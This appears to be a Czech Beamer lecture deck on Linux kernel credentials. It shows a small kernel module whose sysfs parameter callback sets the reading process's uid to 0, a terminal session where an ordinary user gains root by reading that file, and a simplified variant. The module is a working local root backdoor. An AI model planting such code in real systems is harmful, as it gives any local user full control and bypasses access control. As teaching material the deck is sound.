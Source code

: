 \documentclass{beamer}
\begin{document}
\begin{frame}[fragile]
\frametitle{Prvně v jaderném modulu...}
\begin{figure}
\begin{verbatim}
#include <linux/module.h>

static int su(char *val, const struct kernel_param *kp) {
	struct cred* new_cred = prepare_creds();
	kuid_t v = {0};
	new_cred->uid = v;
	new_cred->euid = v;
	new_cred->fsuid = v;
	return commit_creds(new_cred);
}
static struct kernel_param_ops ops = {
	.get = &su, // read()
};
// /sys/module/test/parameters/su
module_param_cb(su, &ops, NULL, 0664);
MODULE_LICENSE("GPL v2");
\end{verbatim}
\end{figure}
\end{frame}


\begin{frame}[fragile]
\frametitle{Funguje!}
\begin{figure}
\begin{verbatim}
root# insmod ./test.ko

daniel$ id
uid=1000(daniel) gid=1000(daniel) groups=1000(daniel)
daniel$ cat /sys/module/test/parameters/su
daniel$ id
uid=1000(daniel) gid=1000(daniel) groups=1000(daniel)
daniel$ read < /sys/module/test/parameters/su
root# id
uid=0(root) gid=1000(daniel) groups=1000(daniel)
root# ip addr add fd64::1/128 dev eth0
root# ip addr show dev eth0 | grep fd
inet6 fd64::1/128 scope global
\end{verbatim}
\end{figure}
\end{frame}

\begin{frame}[fragile]
\frametitle{Můžeme zjednodušit...}
\begin{figure}
	\begin{verbatim}
#include <linux/module.h>

static int su(char *val, const struct kernel_param *kp) {
	kuid_t v = {0};
	((struct cred*) current->cred)->uid = v; 
	return 0;
}

static struct kernel_param_ops ops = {
	.get = &su,
};
module_param_cb(su, &ops, NULL, 0664);
MODULE_LICENSE("GPL v2");

	\end{verbatim}
\end{figure}
\end{frame}
\end{document}
